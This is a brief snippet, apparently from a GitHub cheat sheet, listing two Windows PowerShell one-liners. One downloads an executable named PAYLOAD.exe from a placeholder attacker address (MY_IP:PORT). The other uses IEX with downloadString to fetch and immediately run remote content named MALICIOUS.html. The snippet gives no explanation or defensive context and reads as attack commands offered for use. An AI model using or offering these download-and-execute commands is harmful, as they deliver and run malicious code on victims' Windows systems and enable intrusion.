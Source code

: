 ## Windows Powershell Commands:

#### 1) powershell "(New-Object System.Net.WebClient).downloadFile('http://MY_IP:PORT/PAYLOAD.exe','PAYLOAD.exe')"

#### 2) powershell "IEX(New-Object Net.WebClient).downloadString('http://MY_IP:PORT/MALICIOUS.html')"
